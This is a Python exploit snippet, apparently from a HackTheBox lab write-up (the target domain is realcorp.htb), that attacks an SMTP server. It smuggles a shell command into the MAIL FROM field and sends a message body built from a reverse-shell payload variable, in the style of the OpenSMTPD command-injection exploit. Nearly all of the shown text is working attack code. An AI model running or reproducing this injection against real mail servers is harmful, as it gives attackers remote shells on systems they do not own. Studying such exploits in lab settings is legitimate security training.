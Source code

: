 ```py
#1\r\n
#2\r\n
#3\r\n
#4\r\n
#5\r\n
#6\r\n
#7\r\n
#8\r\n
#9\r\n
#a\r\n
#b\r\n
#c\r\n
#d\r\n
""" + pld_rev_shell.encode() + b"""
.
"""
for res in socket.getaddrinfo(HOST, PORT, socket.AF_UNSPEC, socket.SOCK_STREAM):
    af, socktype, proto, canonname, sa = res
    try:
        s = socket.socket(af, socktype, proto)
    except OSError as msg:
        s = None
        continue
    try:
        s.connect(sa)
    except OSError as msg:
        s.close()
        s = None
        continue
    break
if s is None:
    print('could not open socket')
    sys.exit(1)
with s:
	data = s.recv(1024)
	time.sleep(1)
	s.send(b"helo test.com\r\n")
	data = s.recv(1024)
	s.send(b"MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>\r\n")
	time.sleep(1)
	data = s.recv(1024)
	s.send(b"RCPT TO:<j.nakazawa@realcorp.htb>\r\n")
	data = s.recv(1024)
	s.send(b"DATA\r\n")
	data = s.recv(1024)
	s.send(payload)
	data = s.recv(1024)
	s.send(b"QUIT\r\n")
	data = s.recv(1024)
s.close()
```
